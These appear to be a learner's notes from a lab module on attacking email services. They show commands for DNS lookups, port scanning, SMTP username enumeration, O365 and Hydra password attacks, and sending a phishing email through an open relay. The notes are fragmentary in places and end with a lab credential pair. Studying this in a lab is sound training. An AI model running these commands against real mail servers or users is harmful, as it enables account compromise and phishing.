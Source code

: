 ![text](https://academy.hackthebox.com/storage/modules/116/SMTP-IMAP-1.png)

## Enumeration
We can use the `Mail eXchanger` (`MX`) DNS record to identify a mail server.
```shell-session
AhmaDb0x@htb[/htb]$ host -t MX hackthebox.eu
```

```shell-session
AhmaDb0x@htb[/htb]$ dig mx inlanefreight.com | grep "MX" | grep -v ";"
```

#### Host - A Records
```shell-session
AhmaDb0x@htb[/htb]$ host -t A mail1.inlanefreight.htb.
```

If we are targetting a custom mail server implementation such as `inlanefreight.htb`, we can enumerate the following ports:

|**Port**|**Service**|
|---|---|
|`TCP/25`|SMTP Unencrypted|
|`TCP/143`|IMAP4 Unencrypted|
|`TCP/110`|POP3 Unencrypted|
|`TCP/465`|SMTP Encrypted|
|`TCP/587`|SMTP Encrypted/[STARTTLS](https://en.wikipedia.org/wiki/Opportunistic_TLS)|
|`TCP/993`|IMAP4 Encrypted|
|`TCP/995`|POP3 Encrypted|

We can use `Nmap`'s default script `-sC` option to enumerate those ports on the target system:

Attacking Email Services

```shell-session
AhmaDb0x@htb[/htb]$ sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 10.129.14.128
```

## Misconfigurations
anonymous authentication
support protocols that can be used to enumerate valid usernames.

#### Authentication

The SMTP server has different commands that can be used to enumerate valid usernames `VRFY`, `EXPN`, and `RCPT TO`. If we successfully enumerate valid usernames, we can attempt to password spray, brute-forcing, or guess a valid password. So let's explore how those commands work.

```shell-session
AhmaDb0x@htb[/htb]$ telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


VRFY root

252 2.0.0 root
```
```shell-session
EXPN john

250 2.1.0 john@inlanefreight.htb


EXPN support-team

250 2.0.0 carol@inlanefreight.htb
250 2.1.5 elisa@inlanefreight.htb
```


command `USER` followed by the username, and if the server responds `OK`. This means that the user exists on the server.


```shell-session
AhmaDb0x@htb[/htb]$ smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

#### O365 Spray
-validate
```shell-session
msplaintext
```

```shell-session
AhmaDb0x@htb[/htb]$ python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz        
```

#### Hydra - Password Attack
```shell-session
AhmaDb0x@htb[/htb]$ hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

s [o365spray](https://github.com/0xZDH/o365spray) or [MailSniper](https://github.com/dafthack/MailSniper) for Microsoft Office 365 or [CredKing](https://github.com/ustayready/CredKing) for Gmail or Okta.




#### O365 Spray - Password Spraying
```shell-session
AhmaDb0x@htb[/htb]$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```


## Protocol Specifics Attacks

An open relay is a Simple Mail Transfer Protocol (`SMTP`) server, which is improperly configured and allows an unauthenticated email relay. Messaging servers that are accidentally or intentionally configured as open relays allow mail from any source to be transparently re-routed through the open relay server. This behavior masks the source of the messages and makes it look like the mail originated from the open relay server.

```shell-session
AhmaDb0x@htb[/htb]# nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```

```shell-session
AhmaDb0x@htb[/htb]# swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```



marlin@inlanefreight.htb   password: poohbear